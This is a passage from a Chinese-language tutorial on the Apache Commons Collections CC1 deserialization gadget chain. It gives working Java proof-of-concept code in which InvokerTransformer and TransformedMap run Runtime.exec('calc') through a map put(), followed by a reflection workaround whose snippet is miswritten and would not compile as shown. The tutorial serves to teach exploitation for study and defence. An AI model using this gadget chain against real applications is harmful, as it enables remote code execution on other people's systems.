 ```
```

![image](https://user-images.githubusercontent.com/84888757/204724499-2899a1ae-9c93-4d99-9f29-60ea25d4dd51.png)


还有一种更简洁的命令执行方式，就是使用 `TransformedMap` 的 `put` 方法。前面说过 `put()` 最终会调用 `transform` 方法(确切的说只要 `key` 或 `value` 发生变化都会调用这个方法)。

`CC1_1_put.java` 代码如下：
```
package org.vulhub;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class CC1_1_put {
    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"calc"}),
        };
        
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        Map outerMap = TransformedMap.decorate(innermap, null, transformerChain);

        outerMap.put("test", "1234");
    }
}
```

![image](https://user-images.githubusercontent.com/84888757/204724842-60c6acf2-e9f5-43ef-a1b2-832d3065a8a3.png)



### 3.3 `Runtime` 不可序列化问题  
`Runtime`类并没有实现 `java.io.Serializable`接口，所以它是不可序列化的。

但是我们可以通过**反射**来解决，因为`Class`这个类是可序列化的。
通过反射，获取 `Runtime` 的 `class` 对象，就可将其变成可序列化的。

将 `Runtime.getRuntime().exec()`写成反射形式就是：

```
class<Runtime> runtimeclass = Runtime.class;
Method getRuntime = runtimeclass.getmethod("getRuntime", null);
Runtime r = (Runtime)getRuntime.invoke(null,null);
r.exec("calc");
```
